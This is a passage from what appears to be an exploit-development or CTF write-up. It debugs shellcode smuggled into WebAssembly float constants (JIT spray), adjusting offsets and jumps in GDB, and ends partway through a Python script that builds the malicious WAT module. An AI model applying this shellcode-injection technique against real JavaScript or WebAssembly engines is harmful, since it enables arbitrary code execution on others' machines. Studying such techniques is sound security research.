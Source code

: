 - Comment the previous `shell_wasm_code` and use this

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023224715.png)

- Let's run GDB and check the shellcode is working properly

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023224753.png)

- Looks like our shellcode is not there in the address we calculated previously

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023225054.png)

- Yeh it's placed 0x13 bytes before from our previously calculated address, so let's change the shellcode's offset in our exploit
- now re-run the exploit and set a breakpoint in our shellcode address

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023225435.png)

- The exploit hits our breakpoint, now just step through the instructions and check are there any issues while jumping and placing the required values in the registers
- It executed the `xor rax,rax` correctly but, then it jumped to another unwanted instruction next
- Also we have another problem next

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023230330.png)

- We can see the difference between the first box and the second box
- Our first few set of shellcode (8 set of 8 bytes) has `vmovq  xmm1,r10` instruction in between it, so we can calculate the jump according to that instruction's size, but after 8 sets, there's another instruction coming after **vmovq** , `vmovsd QWORD PTR [rbp-0x28],xmm0`
- So in this case we need to add jumps according to this instruction's size
- So it's a problem if we have to work with a large shellcode :(

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023230659.png)

- After few analysis I came to a conclusion that the next set after the `vmovq  xmm7,r10` instructions follow the same pattern
- So the in between instruction's size won't change in that pattern, so let's add some random floating point junk values in the first 8 sets of shellcode, then let's add our own shellcode and jump directly after the 8th set

```python
import os

let_wat_code = '''
(module
  (func (export "main") (result f64)

;; random values to skip the first 8 sets
f64.const  -1.1434324392442428853e-117
f64.const  -5.4434324392442428853e-127
f64.const  -11.1434124392442428853e-137
f64.const  -13.14364224392442428853e-417
f64.const  -8.1434324392442428853e-217
f64.const  -9.14343124392442428853e-917
f64.const  -4.1434324392442428853e-147
f64.const  -3.1434324392442428853e-207

f64.const  -1.1724392442428853e-117
f64.const  -0.12400912772790662
f64.const  -1.0023968399475393e+120
f64.const  -5.174445551559503e+245
f64.const  8.309884721501063e-246
f64.const  2.0924531835600378e-110
f64.const  3.5295369634097827e+30
f64.const  4.034879290548565e+175
f64.const  -9.77719779008621e-292
```